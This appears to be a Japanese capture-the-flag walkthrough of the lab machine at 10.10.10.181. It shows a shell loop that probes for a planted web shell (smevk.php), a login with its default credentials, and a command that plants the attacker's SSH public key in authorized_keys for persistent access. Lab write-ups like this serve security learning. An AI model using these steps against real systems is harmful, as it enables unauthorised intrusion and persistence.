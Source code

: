`curl` で HTML を見てみると以下のような記述があります。

```html
<body>
        <center>
                <h1>This site has been owned</h1>
                <h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
                <h3> - Xh4H - </h3>
                <!--Some of the best web shells that you might need ;)-->
        </center>
</body>
```

`best web shells` がバックドアとして残されているようです。
「`best` なんて人によるだろ」と思い作問者の名前 (`xh4h`) + `web shell` でググると [https://twitter.com/riftwhitehat/status/1237311680276647936](https://twitter.com/riftwhitehat/status/1237311680276647936) が見つかります。
このリポジトリをクローンしてきて雑に `for path in (ls | grep -v README); curl 10.10.10.181/$path; echo $path; end` とかすると `smevk.php` が見つかります。
`smevk.php` のデフォルトユーザ名、パスワードでログイン出来るのでこれで任意コード実行が出来るようになりました。

### user login

`smevk.php` で `user.txt` を入手したいですが、ログイン中のユーザではそれが無いです。

```txt
$ ls -al /home/$(whoami)
total 44
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 04:03 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16 04:03 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 06:29 .ssh
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt
```

`smevk.php` のコンソールは使いにくいしユーザ名も分かったし、 `ssh` 接続を試みます。

ますクライアントマシンでキーペア生成します。

```txt
ssh-keygen -f ~/.ssh/traceback
```

`smevk.php` のコンソールからこんな感じで生成した `~/.ssh/traceback.pub` をアップロードします。

```txt
mkdir -p /home/webadmin/.ssh/ && echo "ssh-rsa xxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxx@xxxxxxxxxxxxxxxx" > /home/webadmin/.ssh/authorized_keys && cat /home/webadmin/.ssh/authorized_keys
```

これで SSH すると無事に安定したシェルを得られます。
